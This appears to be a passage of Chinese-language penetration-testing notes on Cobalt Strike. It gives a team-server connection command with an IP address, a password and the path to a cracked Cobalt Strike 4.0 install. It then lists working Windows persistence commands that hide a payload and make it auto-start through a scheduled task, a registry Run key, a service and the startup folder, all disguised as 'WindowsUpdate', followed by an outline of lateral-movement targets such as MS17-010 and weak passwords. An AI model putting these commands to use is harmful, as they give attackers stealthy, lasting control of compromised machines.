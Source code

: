 - 注册表
- dll劫持

- https://kevien.github.io/2020/04/05/cobaltstrike-dns-beacon/

- 上线提醒
  - 微信提醒：http_ftqq.cna
  - ./agscript 111.231.228.112 50050 teste QAX20190802cs1 /root/cobaltstrike4.0-cracked/http_ftqq.cna
  - 邮箱提醒：

## 0x04 权限维持

获取到一个Session之后，可能会由于网络不稳定，机器重启等操作丢失Session。我们获取一个Session之后，首先要思考的就是如何使Session永久维持。除了思考永久停留的问题之外，还需要及时的将Session备份到其他的CS服务器上面。本文列举了一些Session永久维持的方法，抛砖引玉。

- 永久停留

  本部分介绍了一些如何进行永久停留的方法，参考：https://xz.aliyun.com/t/5881

  - 计划任务
    - attrib C:\test.exe +s +h //隐藏文件
    - schtasks /create /tn WindowsUpdate /tr “C:\test.txt” /sc minute /mo 1
    - schtasks /delete /tn WindowsUpdate //删除计划任务
  - 注册表
    - reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /t REG_SZ /d "C:\test.exe" /f
  - shift后门
  - Windows服务
    - sc create "WindowsUpdate" binpath= "cmd /c start C:\test.exe";
    - sc config "WindowsUpdate" start= auto
    - net start WindowsUpdate
  - 自启目录
    - copy "C:\test.exe" "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsUpdate.exe" /y
    - attrib "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsUpdate.exe" +s +h

- 备份Session
  
  - 

## 0x05 内网渗透

内网渗透中，使用一些神洞进行。这些渗透往往是内网之中的大杀器。其中包括下面的这些神洞。除了这些神洞之外，在内网中总是会存在大量的弱口令，内网中弱口令扫描也尤为重要。同样，在内网中可能会存在大量服务器使用相同复杂密码的情况，因此密码嗅探也是比较有效的操作。

除此之外，在内网中横向渗透时，优先考虑使用msf。

- 主机神洞
  - MS17-010

- 中间件神洞
  - Weblogic

- 密码破解
  - ssh弱口令
  - rdp弱口令
  - 数据库弱口令
